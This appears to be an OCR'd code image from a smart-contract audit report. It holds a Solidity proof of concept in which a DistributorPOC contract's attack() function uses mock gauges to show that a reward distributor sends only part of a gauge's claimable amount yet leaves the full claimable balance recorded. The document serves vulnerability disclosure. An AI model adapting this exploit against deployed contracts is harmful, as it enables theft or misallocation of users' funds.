 ```
        claimable[_gauge] = 0;
        IERC20(reward).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
        IERC20(reward).approve(_gauge, _claimable);
        if (!IGauge(_gauge).notifyRewardAmount(address(reward), _claimable)) {
            // can return false, will simply not distribute tokens
            claimable[_gauge] = _claimable;
        }
    }

    function set_claimable(address gauge, uint256 claim) external {
        claimable[gauge] = claim;
    }
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract DistributorPOC {
    MockIncentiveController supply_gauge;
    MockIncentiveController borrow_gauge;
    LendingPoolGauge lending_gauge;
    Zero zero;
    Distributor d;

    constructor() {
        supply_gauge = new MockIncentiveController(10e18);
        borrow_gauge = new MockIncentiveController(10e18);
        lending_gauge = new LendingPoolGauge(address(supply_gauge), address(borrow_gauge));
        zero = new Zero();
        d = new Distributor(zero);
        zero.transfer(address(d), 100e18);
    }

    function attack() external {
        d.set_claimable(address(lending_gauge), 30e18);
        d.distribute(address(lending_gauge));

        require(zero.balanceOf(address(supply_gauge)) == 7.5e18);
        require(zero.balanceOf(address(borrow_gauge)) == 0);

        require(d.claimable(address(lending_gauge)) == 30e18);        
    }
}
```